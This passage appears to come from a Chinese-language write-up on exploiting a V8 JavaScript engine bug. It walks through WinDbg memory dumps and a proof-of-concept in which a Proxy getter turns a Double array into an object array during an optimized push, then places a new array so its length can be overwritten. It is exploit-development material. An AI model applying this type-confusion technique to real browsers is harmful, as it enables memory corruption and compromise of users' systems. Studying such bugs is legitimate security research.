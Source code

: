 ```
00000284`080861dc  08040385 0804035d 00000000 00018018  // [8]
00000284`080861ec  0804035d 00000000 00018018 00000000
00000284`080861fc  00000000 00000000 00000000 00000000


```

我们可以看到在`vuln_array[6]`和`vuln_array[7]`处保存的指针，指向的就是`map+double vallue`的值，常规情况下如果再`push`的话，修改的就应该是`vuln_array[8]`处的指针。但是由于漏洞的存在，优化之后的 push 是不知道这一切的，他还是会像处理`Double`数组那样直接把`16`字节的值复制到`[elements+8*16]`的位置。

```
DebugPrint: 0000028408085F79: [JSArray]
 - map: 0x028408241909 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x028408208dcd <JSArray[0]>
 - elements: 0x0284080861b5 <FixedArray[9]> [HOLEY_ELEMENTS]
 - length: 9
 - properties: 0x0284080406e9 <FixedArray[0]> {
    #length: 0x028408180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x0284080861b5 <FixedArray[9]> {
           0: 0x028408086199 <Object map = 00000284082402D9>
         1-5: 0x028408040385 <the_hole>
           6: 0x0284080861ed <HeapNumber 1.04326e-309>
           7: 0x0284080861e1 <HeapNumber 1.04326e-309>
           8: 0x028408040385 <the_hole>
 }

0:000> dd 0x0284080861b5-1 L2
00000284`080861b4  080404b1 00000012
0:000> dq 0x0284080861b5-1+8
00000284`080861bc  08040385`08086199 08040385`08040385
00000284`080861cc  08040385`08040385 080861e1`080861ed
00000284`080861dc  0804035d`08040385 00018018`00000000
00000284`080861ec  00000000`0804035d 08244b81`00018018
00000284`080861fc  00018018`00000000                    // [elements+8*16]即Double数组的vuln_array[8]


```

成功了，在`object`数组的视角下，`vuln_array[8]`并没有被赋值，而在`Double`数组的视角下，`vuln_array[8]`即`[elements+8*16]`成功放入了我们的目标值。现在我们已经可以修改一些值了，刚刚说过在将`Double`数组转化为`object`数组的时候，会重新申请内存来保存`elements`的值，如果我们在转化完之后趁热打铁创建一个数组，正好可以放置到这块内存之后，对`poc`进行一些小调整

```
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {}; // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];  // 为了修改此数组的length
        %DebugPrint(vuln_array);
        %SystemBreak();
        return Object.prototype;
    }
});


```
